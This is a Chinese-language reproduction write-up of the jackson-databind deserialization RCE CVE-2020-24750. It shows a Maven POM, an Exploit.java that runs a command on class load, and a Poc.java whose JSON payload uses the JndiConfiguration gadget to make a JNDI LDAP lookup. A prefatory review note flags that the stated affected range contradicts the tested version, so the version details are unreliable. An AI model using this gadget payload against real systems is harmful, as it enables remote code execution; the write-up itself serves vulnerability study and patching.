



## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：Before2.9.10.4 etc but pins2.9.10.4; configuration0.1.3; typing; JDK8u181 demonstrated

代码与实验材料：Full POM, class and scalar-constructor payload; HTTP/LDAP commands image-only; unrelated8840 image paths

来源证据范围：Official issue2798, third-party fork code permalink, XZ8210#toc-2

- **结论使用边界（1）**：Affected/test release contradiction。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **事实待核（2）**：Verify reused screenshot targets; missing fixed-version instructions。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

（CVE-2020-24750）FasterXML jackson-databind 远程命令执行漏洞
=============================================================

一、漏洞简介
------------

com.pastdev.httpcomponents.configuration.JndiConfiguration类绕过了之前jackson-databind维护的黑名单类，并且JDK版本较低的话，可造成RCE。

### 利用条件

-   开启enableDefaultTyping()
-   使用了com.pastdev.httpcomponents.configuration.JndiConfiguration第三方依赖

二、漏洞影响
------------

jackson-databind before 2.9.10.4

jackson-databind before 2.8.11.6

jackson-databind before 2.7.9.7

三、复现过程
------------

### 漏洞分析

> 相关信息

`https://github.com/FasterXML/jackson-databind/issues/2798`

FasterXMLjackson-databind远程命令执行漏洞/media/rId26.png)

> 相关类确定：

`https://github.com/kishorkunal-raj/jackson-databind/blob/5f4148e6c083529a2d12c6dc986b07a03850f503/src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java#L198`

FasterXMLjackson-databind远程命令执行漏洞/media/rId27.png)

之后在源代码中定位到`com.pastdev.httpcomponents.configuration.JndiConfiguration`类，发现一处可疑的JNDI注入，我们只需要构造参数即可实现，非常简单：

FasterXMLjackson-databind远程命令执行漏洞/media/rId28.jpg)

整个利用链如下所示：

    mapper.readValue
        ->JndiConfiguration
            ->lookup

### 漏洞复现

#### 环境搭建

> pom.xml

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.10.4</version>
        </dependency>

        <!-- https://mvnrepository.com/artifact/com.pastdev.httpcomponents/configuration -->
        <dependency>
          <groupId>com.pastdev.httpcomponents</groupId>
          <artifactId>configuration</artifactId>
          <version>0.1.3</version>
        </dependency>

          <dependency>
          <groupId>org.slf4j</groupId>
          <artifactId>slf4j-nop</artifactId>
          <version>1.7.2</version>
        </dependency>
        <!-- https://mvnrepository.com/artifact/javax.transaction/jta -->
          <dependency>
              <groupId>javax.transaction</groupId>
              <artifactId>jta</artifactId>
              <version>1.1</version>
          </dependency>
      </dependencies>

#### 漏洞复现

这里使用LDAP的利用方式进行漏洞的利用演示，RMI的方式也是类似的，且RMI比LDAP要对JDK版本有很大的局限性\~LDAP利用方式：jdk版本：JDK
11.0.1、8u191、7u201、6u211之前，笔者这里采用JDK 1.8.0\_181

##### 编译Exploit.java

> Exploit.java

    import java.lang.Runtime;

    public class Exploit {
        static {
            try {
                Runtime.getRuntime().exec("calc");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }

编译Exploit.java文件：

FasterXMLjackson-databind远程命令执行漏洞/media/rId33.png)

之后在本地搭建HTTP服务并将Exploit.class放置在web目录下，之后通过marshalsec来启动一个LDAP服务使用marshalsec来启动一个LDAP服务：

FasterXMLjackson-databind远程命令执行漏洞/media/rId34.png)

##### 执行漏洞POC

> Poc.java

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;

    import java.io.IOException;

    public class Poc {
        public static void main(String[] args) throws Exception {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"com.pastdev.httpcomponents.configuration.JndiConfiguration\",\"ldap://127.0.0.1:1099/Exploit\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

之后运行该程序，成功执行命令，弹出计算器：

FasterXMLjackson-databind远程命令执行漏洞/media/rId36.jpg)

参考链接
--------

> https://xz.aliyun.com/t/8210\#toc-2
